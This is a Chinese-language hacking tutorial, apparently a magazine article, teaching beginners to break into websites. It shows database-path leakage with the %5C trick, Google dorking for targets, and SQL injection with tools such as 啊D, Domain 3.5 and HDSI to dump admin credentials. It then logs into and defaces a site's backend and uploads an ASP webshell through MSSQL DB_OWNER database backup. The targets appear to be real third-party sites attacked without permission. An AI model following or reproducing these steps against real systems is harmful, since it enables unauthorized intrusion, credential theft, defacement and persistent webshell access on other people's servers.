





### 二、暴库入侵实战

前几期杂志上刺猬兄曾经说过投票系统的暴库漏洞大概是 70%，可能是因为人们对投票系统的关注比较少，所以安全问题也就很严重了。经过我最近的测试，虽然目前存在漏洞的少了很多，但是也有 30% 左右的投票系统会出现暴库的问题。打开百度搜索 `inurl:vote.asp`（我们也可以换成别的关键字）可以搜索出很多这套投票系统。随便打开几个网站，把 `vote.asp` 前面的 “/” 换成 “`%5C`”，很多都会暴出数据库路径来，如图4。

在本例中，`vote.asp` 本来应该在相对目录 `/shaoyang/wsxq43/` 下查找数据库 `pictures/photoshop/qzwsxqmdb.mdb`，可是把 “/” 变成 “`%5c`” 后，`vote.asp` 就会无视 `wsxq43` 这个目录的存在，到 `/shaoyang/` 下去寻找，结果自然是找不到了！因此，我们根据错误提示的信息，将丢失的 `/wsxq43/` 补全，访问 `http://www.wsxq.com/shaoyang/wsxq43/pictures/photoshop/qzwsxqmdb.mdb` 就会出现下载提示了，如图5。

### 三、暴库过程中的一些常见问题

- 1. 暴库时仅仅显示 `http500` 错误
- 2. 暴出的数据库是 `.asp` 的文件

打开 IE，在“工具”→“Internet 选项”→“高级”中找到“显示友好的 HTTP 错误信息”，把它前边的“√”去掉，如图6。



将数据库地址填到网际快车或迅雷等下载工具中也许就可以下载了，但是下载回来后需要把数据库改为 `.mdb` 格式才能打开。

### 3．数据库中含有“#”之类的特殊符号

使用“%23”代替数据库文件名中的“#”，其实“%23”就是“#”的 URL 编码。如果还有其它特殊符号，可以使用转换工具进行相应转换后再下载。

### 4．打开下载回来的数据库提示需要密码

可使用 ACCESS 密码破解工具处理，如“ACCESS 密码查看器”或“ACCESS 数据库文件密码读取工具”等。

通过暴库找到并下载数据库后，后续入侵方式就与“默认数据库”入侵类似。数据库是否有利用价值也非常关键。接下来学习一种常见且有效的方法：SQL 注入攻击。

### 四、初识注入

> **小知识：什么是注入攻击？**
>
> 当应用将用户输入直接拼接进 SQL 语句并执行时，攻击者可构造特殊输入改变原语句逻辑，导致越权查询、绕过认证、读取或修改数据库等，这类攻击称为 SQL 注入。

文中以对话方式说明：初学者暂时不必纠结理论细节，先通过工具建立对 SQL 注入的直观认识，再逐步学习漏洞分析与利用。

### 五、注入工具简介

介绍了多种注入工具（如 NBSI、HDSI、啊D、Domain 3.5 等）的特点：有的偏重批量找注入点，有的偏重数据库操作或后续利用。实战中常需组合使用多个工具互补。

### 六、网站注入入侵实例

#### 1．寻找 SQL 注入目标

练习前先找目标，可借助 Google Hack 搜索。

> **小知识：什么是 Google Hack？**
>
> Google Hack 是利用搜索引擎语法（如 `inurl:`）定位特定页面或潜在漏洞目标的方法。
>
> 通过构造搜索语法可以较高效地定位疑似注入点，例如搜索 `inurl:.asp` 等关键词组合。

打开 Google 高级搜索，将每页显示项调大，搜索关键字 `inurl:.asp`。再把结果地址导入“啊D 注入工具”，使用“下一页”自动检测功能可批量筛选注入点。



图7：展示检测到的潜在注入点。文中说明该工具适合快速探测，准确率与功能仍有限，通常用于初筛。

#### 2．Domain 3.5——Access 数据库的克星

- 1. 在检测出的地址中任选目标（如示例 URL）。
- 2. 将地址填入工具“注入点”，点击“开始检测”。
- 3. 在检测信息中查看是否“可注入”及数据库类型。
- 4. 点击“猜解表名”等功能继续枚举数据库信息。



## 菜鸟学堂

- ① 一般 admin、user、manage、administrator 等类似的表名是比较有用的；
- ③ 选中要猜解的表名，比如“admin”，点击“猜解列名”，会把检测到的列名显示在上面；
- ④ 选中要猜解的列名，比如选择“password、name、id”，点击“猜解内容”，会把检测到的数据内容显示在下面的“检测信息”中，如图8；
- ⑤ 在得到管理员的数据后我们就可以登录网站的后台了。切换到“管理入口扫描”，点击“扫描后台地址”，选择“主机地址并开始扫描”，找到的后台地址就会显示在最下面的信息窗口中，我们在浏览器中打开后台地址，会出现登录界面，使用刚才得到的管理员用户名和密码登录进去。我们来客串一下管理员：给它增加一个新闻，吓吓管理员，如图9、图10。

> 用户，默认拥有非常高的权限，可以对数据库执行各种命令。DB-OWNER 中文意思是“数据库拥有者”，它不能执行一些敏感的扩展存储过程，但是还是有比较高的权限的，例如添加、删除数据库、建表删表，执行命令会绕过程序；Public 是公共连接用户，一般拥有的权限非常低，连备份数据库都做不到。

我们切换到“列目录”选项，点击右面的列目录，就会把硬盘上面的目录信息显示出来。

寻找网站目录的小技巧：

- ① 一般很少有人把网站存放在系统盘下；
- ② 管理员为了自己管理方便，很少会把网站放在很深的目录下，一般都比较容易找到；
- ③ 如果发现类似 www、wangzhan、web 以及含网址中一些字符命名的文件夹要特别留意。

找到找不到就要看你的耐心、运气和人品了。我找到的网站目录是 `C:\PROJECT\HPW\WWWROOT\hotel`（因为它只有一个分区，所以存放在了系统盘下），如图12。为了证实确实是网站的路径，我们随便从列出来的文件中找几个文件访问，发现确实存在。现在我们就利用 DB-OWNER 的备份数据库功能上传我们的 ASP 木马。



图9



图10

上面就是 ACCESS 数据库的利用方法，但是当我们遇到 MSSQL Server 数据库时那就好玩多了。

### 3. HDSI VS GetWebShell，轻松拿下 DB_OWNER

重新选择一个注入点 `http://www.hpw.com.tw/hotel/hotel.asp?LC=TC` 填到工具的“注入地址”里面，点击右边的“开始”，检测完毕后我们看到目标网站为 SQL 数据库，以及数据库名称、用户和权限。提示我们权限为 DB_OWNER。DB_OWNER 权限是可以读取注册表、列目录和备份数据库的，如图11。



图11

> **小知识：MSSQL 的三种权限（SA、DB_OWNER、Public）**
>
> MSSQL 数据库连接用户有三种：SA（安装 MSSQL 时内置的……）



图12



图13

切换到“上传文件”选项，“本地文件”选择我们的 ASP 木马（使用一句话木马的成功率会比较高），“保存位置”填写网站的路径 `C:\PROJECT\HPW\WWWROOT\help.asp`，上传方式选择“数据库备份”，点击“上传”，结果提示“上传文件不成功”，如图13。其实上传已经成功了，我们访问 `http://www.hpw...`com.tw/help.asp 会出现一堆乱码，这时使用客户端连接，就会出现一个有很多垃圾数据却很有用的 ASP 木马页面了。

高手们为了方便菜菜使用，还专门写了一个利用 DB_OWNER 的备份数据库功能来上传 ASP 木马的工具 GetWebShell，使用也非常简单。

在 URL 处填上注入点，远程木马位置为网站的路径 `C:\PROJECT\HPW\WWWROOT\duyao.asp`，本地选好我们的木马，选中“BACKUP DATABASE”，点击“开始”，如图14。访问 `http://www.hpw.com.tw/duyao.asp` 也出现了好多乱码，说明我们的木马已经成功备份上去了；使用客户端连接，就会出现我们的 ASP 木马页面了。



图14

### 小插曲：DB_OWNER 权限注入时快速找到网站物理路径

> “毒药老师，你说的那个列目录就是要想办法找到网站的物理路径吗？”

“嗯，就是这个意思”。

“这个太麻烦了，有没有简单点的方法找到网站的路径啊”。

毒药听到这儿，意味深长地说道：“入侵本来就是一件很烦琐的事情，不能走捷径，这样才能有成功时的成就感……”

“我们知道毒药老师是最厉害的，什么网站都逃不过你的毒手，肯定有好办法的。”小菜们狂拍马屁。于是忍不住把自己所选密码工具（如某些注入工具系列之“目录导航者”）拿出来演示。

在“注入点”里面填好注入点的地址，“查找位置”填好查找的盘符，“查找目标”填好我们要查找的网站的目录（一般这个目录越特殊越好，查找时准确迅速），点击“开始查找”，提示成功后点击“得到目录”就会得到我们想要的物理路径了，如图15。

